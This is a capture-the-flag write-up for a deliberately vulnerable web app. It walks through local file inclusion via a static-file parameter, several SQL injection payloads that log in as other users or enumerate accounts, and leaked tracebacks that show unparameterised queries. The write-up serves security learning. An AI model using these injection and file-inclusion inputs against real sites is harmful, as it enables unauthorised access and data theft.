# Entrypoint




This challenge has another login panel, but when you look at the source code you can see that there is supposed to be a backup at `./backup.txt`.
```html
<html>
    <head>
        <meta name="charset" value="utf-8">
        <link href="https://fonts.googleapis.com/css?family=Nanum+Gothic:400,700&display=swap" rel="stylesheet">
        <link rel="stylesheet" href="/static?f=index.css">

        <title>Login</title>
    </head>

    <body>
        <div class="container">
            <form action="/" method="POST" class="lform">
                <h1>RARO</h1>
                <input type="text" name="username" placeholder="Username">
                <input type="password" name="password" placeholder="Password">
                
                <input type="submit" value="Login">
            </form>

            <!--
                In case I forget: Backup password is at ./backup.txt
            -->
        </div>
    </body>
</html>
```
Opening `/backup.txt`doesn't work but when I looked at the source again I  saw there is a URL, which is vulnerable to local file inclusion.
```
/static?f=backup.txt

develop    developerBackupCode4321

Make sure to log out after using!

TODO: Setup a new password manager for this
```
With these credentials I was able to log in and get the first flag.

`ractf{developerBackupCode4321}`

This also gave me a list of users on the site, which we need for the next challenges.



Also if you don't enter any parameter (`/static`) you get a [flask traceback](https://werkzeug.palletsprojects.com/en/1.0.x/debug/) which leaks some of the python source code:
```python
    return render_template("zalgo.html")

@app.route("/static")
def css():
    name = request.args.get("f")
    return send_from_directory("static", name)

if __name__ == "__main__":
    app.run(port=6969, debug=1, host="0.0.0.0")
```
But it does not give me any useful information. Code execution  in the traceback is also not possible since the debug pin is enabled.



# Baiting



For this challenge I needed to log in as the user `loginToGetFlag`, so I tried a SQL-Injection.
```
Username: loginToGetFlag
Password: ' OR 1=1;--
```
This got me logged in as the user `xxslayer420`. 
That means the login is vulnerable to SQL-Injections and I just need to change my injection.
```
Username: loginToGetFlag
Password: ' OR 1=1 and username='loginToGetFlag';--
```


# Admin Attack



When entered I some broken SQL into the username field I got a traceback with a small part of the python source code and the SQL query:
```
Username: '
Password: test
```
```python
Traceback (most recent call last):
  File "/srv/raro/main.py", line 130, in index
    cur.execute("SELECT algo FROM users WHERE username='{}'".format(
sqlite3.OperationalError: unrecognized token: "'''"
```
It seems like there are different SQL queries being executed, as the first one only checks for the username.
This is pretty useful knowledge since I can't seem to inject SQL Queries when I enter `jimmyTehAdmin` as the username.
It looks like the first SQL query only checks the username and then decides on an algorithm to use for the password check.
```
Username: loginToGetFlag
Password: '
```
```python
Traceback (most recent call last):
  File "/srv/raro/main.py", line 139, in index
    cur.execute("SELECT * FROM users WHERE username='{}' AND password='{}'".format(
sqlite3.OperationalError: unrecognized token: "'''"
```
This is the password query with `loginToGetFlag` as the username. 
When I do the same but with `jimmyTehAdmin` as the username I don't get a traceback, which confirms that account gets handled differently.

But I can just enter another username and do the injection in the password field:
```
Username: loginToGetFlag
Password: ' OR username='jimmyTehAdmin';--
```


# Vandalism



I found some stuff in `/robots.txt` but none of those admin pages worked, even when I checked with different accounts.
```
User-Agent: *
Disallow: /admin
Disallow: /wp-admin
Disallow: /admin.php
Disallow: /static
```
I also checked if there were any hidden accounts in the database, but there were none.
```sql
' OR username NOT LIKE 'jimmyTehAdmin' 
AND username NOT LIKE 'xxslayer420' 
AND username NOT LIKE 'loginToGetFlag' 
AND username NOT LIKE 'pwnboy' 
AND username NOT LIKE '3ht0n43br3m4g' 
AND username NOT LIKE 'pupperMaster' 
AND username NOT LIKE 'h4tj18_8055m4n' 
AND username NOT LIKE 'develop';--
```

Finally I found a hint to `__adminPortal` in the response header.



So I checked the site but the flag was apperently vandalized.



In the source code of the site I could see some weird text. So I then removed all non-ascii characters with [this website](https://pteo.paranoiaworks.mobi/diacriticsremover/) and got the flag.



`ractf{h1dd3n1npl4n3s1ght} `

# Insert witty name



For this challenge I tried the LFI at `/static?f=[FILENAME]` again and with the extra knowledge that the site runs python I could easily guess the filename: `/static?f=main.py`
```python
from application import main
import sys

# ractf{d3velopersM4keM1stake5}

if __name__ == "__main__":
    main(*sys.argv)
```
I also tried dumping some more files but it doesn't seem like it's possible.

# Xtremely Memorable Listing



Because we are looking for files for search engines and I already looked at `/robots.txt` in another task I looked at `/sitemap.xml` and found a hint:
```xml
<urlset>
    <url>
        <loc>https://fake.site/</loc>
        <lastmod>2019-12-12</lastmod>
        <changefreq>always</changefreq>
    </url>
    <!--Backup version at sitemap.xml.bak-->
</urlset>
```
So I opened `/sitemap.xml.bak` and downloaded the file:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
   <url>
      <loc>https://fake.site/</loc>
      <lastmod>2019-12-12</lastmod>
      <changefreq>always</changefreq>
   </url>
   <url>
      <loc>https://fake.site/_journal.txt</loc>
      <lastmod>2019-12-12</lastmod>
      <changefreq>always</changefreq>
   </url>
</urlset> 
```
`/_journal.txt` then gave me the flag:
```
Dear diary,
Today I decided to start recording everything I do in a little
journal here on my website. I don't think anyone will find it,
but it should be fun to do.

I'm not really sure how long I can keep this up for, but this is
just a short first entry to kick things off.


Dear diary,
Today I worked on the login for the site, and it now seems to be
far more efficient. By removing the prepared statements it looks
like the query time has gotten much faster. Makes me think there
might have been an issue with how prepared statements were
processed. This is one to look into later.

I don't expect any employees to try and attack the site, so we
should be all good.


Dear diary,
Today an employee tried to login as the developer account. I've
hardcoded the login just to be extra-safe, so there's no chance
anyone will be able to abuse the login form to get into that one.

My password manager database failed this morning, so I've quickly
written down the login details for the developer account.
I made sure to block access to it, so nobody should be able to
read the file unless they have shell access to this server.


Dear diary,
Today some strange men turned up at my door. They started
shouting at me and one of them pul- ractf{4l13n1nv4s1on?}


D̷͙͎ͅĘ̥̤̝͔͈̻̼̀͠A̫͓̳͕̼͈Ŕ̝ͅ ̶͉̼̘̥̯̰̩͟Ḍ̨̥̦I̖̮͓̪͟A̟̯͓̫̝̪͘R̢̛̛̭̗̱Y̢̫̻̘͉̹͈̺ͅ,̲̟̩͓̟̤̗̰̠̀͘
̦̱͖͚͞T̴̶̰̱H͍Ḛ̴̜͘ ̡̝̖͔͍̱ͅH̢͚̳̫͟U̶͎͙̫̟̗̺̱͡͝ͅM̛̟̞͘͡A̧̮̠͚̼̟̺͝N̲̹͓̕ ̢̬̟͉̣͡I̞͓͉̰̗̯̳̲S͕̱͙͇ ̬̠̺͘I̸̗̬̥̪̟̣͡Ǹ͏̤̝̜̻̫͍ ̧͖̰̳͓͚̯͙́O̪̻̯̕͠U̶͎̜͠͞R҉̘̠̱̤͍͔ ̖͈Ṕ̸͍̤͍̝̪̬͚O͏҉̯̠͕͍̀ͅS̰̗̜̀Ş͚̥͖̹͙̕E͕̮̥͞ͅS̴̢͔̝̞͈S͖̱̱I̺̹̘̥̮̘͓̗͝Ǫ͍͙̰̣͚͕̳̀N̥̮̦ͅ
̧̝̠P̭̥̯̫͙̲͙̦͡ͅṚ̺̫̥͍͕͓̀́O̺͢͢C̶̯͎̣̰̝̻̝E̸̬̰͍E̳͚D̨͈̰̩̲̟̭͔̙I̤̖͚̮̫͜͟N̵̶̞G̶̡̥̼̱͎̹̗ ̛̘̰̮̙̗̩͓T̵͍̠̤͈͓̰̜O̺̪̰̜̟͔͔͝ ͏͈͕S̨̙̹͔͍͍͔͈̖͞T͏̤͉͙̼́ͅͅA̺̮̙̥̤̭͟͡G̫̟̦̯̥̫Ę̰͈̗̭͡ ͏͔̪͇̠̲͜͡2̠͕͜͠ ̷̬̫͓̜͚͢O̡͍͔͕̗͡F̲̙̳̀͝ ҉̬̞͕̘T̡̘̣̰̬̳͚H̟̻̰̗͍̀E̫̦̫̝̫̙ ͚͉̣̬̣̪̮ͅP̷̧̳̜̰̺̫̼̖̣͜L̠̺̮̘͍͚̭̘̼A̳̙N̶͏̟̰̰͙̥
̶̥̮͖̬̰͎̟̜̕W̹͕͇͖̕É̬̩̠͇ ͚͍̪̺̖̤H̳͍A̛̠̙̗̬͖͍̲̙V̩̣̟̬̩͓̳̟̜E̡͓͎̻̠̹̣̳̞͟ ̟̺͙͎S̸̭͈E̴̢̟͙̫̖̠̘̰C͔̮͓ͅU̡͉̼͇͕̱̹̞͝͞R̡̦̻̳̥̬̘͖̪̣E̛̫̖̙̼̜̟͈ͅD͔͚͎̭̻̀͡͡ ̴͓̙͚͟H͕̲Í͓͓̦͓͝S̳͇ ͓͇͠R҉͉S̴͔̦̥͓͕͡A̷̱̝̠͝ ̣̬̘̟K̡͙͉͇͎̣͕͖̕E̢͢҉̮͕͖̞̗͈̘Y҉̣̘́S̡͙̠͓̬͜
̸̸̖̦̺̤̫A͍̩̗̩L̛͈̙L͏̳͖͔̰̀͢ͅ ̯̭̖̣O͎̫̘͙͟͞͞F͈̩̯̪̦̤͝ ̵̥̦̜̰̰͖̤̟͘T̡̠̰͝H̶̪͙ͅE̷̯͕ ̬̬̯̥̟̥̱̲D͏͖̱̺̱̥͔̳̘Á͏̳̮̗̰͇T̩̘͉͕̞̝̦̹̀A̰̪̗̩͜͝B̴͚̲͟A̡̗S̭͇͉͟E͇͉̻͝ ͓̤͈̗A̲̭͙̦̦͕̕R҉͈̝̻̪͖͙̻͙Ę̴͉̠̰͚͕̬̫̱ ̢̤̠̙͉̝̜͢B̧̤̤̬͓̕E̱͈̝͕̠͉̟̞̠L̳̫̩̯̦̣͕̯͞Ó̖̮̖̟̫̣͔N̛͏͖̬̞͚͔G҉̳̣͚̪̘͓̭͕̕ ̛͙͇̳̣͖͇̙͖̼͘T̸̴̝O̧͙̺̮̣̪̘̗͠ ̴͇̯̥̫̬͇͍U̲̻͔̘͓̩͜S̛̼̤̣̫
```


